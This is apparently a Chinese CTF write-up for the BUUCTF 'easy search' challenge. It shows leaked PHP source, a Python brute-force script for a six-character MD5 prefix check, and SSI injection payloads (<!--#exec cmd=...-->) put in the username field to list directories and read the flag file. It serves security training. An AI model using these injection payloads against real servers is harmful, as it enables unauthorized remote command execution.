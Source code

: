 # T24 easy search

> 题目：BUUCTF easy search

__0x00 审题__

打开是一个登陆页面，username与password,经过尝试注入，发现没有用，怎么办，扫目录

得到index.php.swp

打开文件得到源码：

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```


找重点：

```php
if ( $admin == substr(md5($_POST['password']),0,6)) {
```

__0x01  解题__

1. 写脚本得到符合条件的password

```python
import hashlib
for i in range(10000000):
    a=hashlib.md5(str(i).encode('utf-8')).hexdigest()
    if(a[0:6]=='6d0bc1'):
        print(str(i))
```

得到password：

```
2020666
2305004
9162671
```

输入密码，得到welcome，发现代码还得到了一个shtml，直接登录发现没有，抓包查看

得到

```
Url_is_here: public/6244f4805659902e2aa37d22ec592c5623402643.shtml
```

2. 访问页面，得到

```
Hello,admin

data: Saturday, 11-Feb-2023 07:54:49 UTC
```
> 啊，这是啥

仔细一看是登录信息

> 这里用到shtml，HTML是静态的，而shtml基于SSI技术，当有服务器端可执行脚本时被当作一种动态编程语言，所以可以注入，也可以用来远程命令执行。[详情](https://blog.csdn.net/pakho_C/article/details/126049432)

输入格式：<!--#exec cmd="命令"-->

我们可以在username中构造payload查询根目录：

```
<!--#exec cmd="ls /"--> 查根目录
<!--#exec cmd="ls"--> 查当前目录
<!--#exec cmd="ls ../"--> 查上级目录
```
3. 得到flag文件名称，可得到该文件

方法：<!--#exec cmd="cat ../flag名"-->









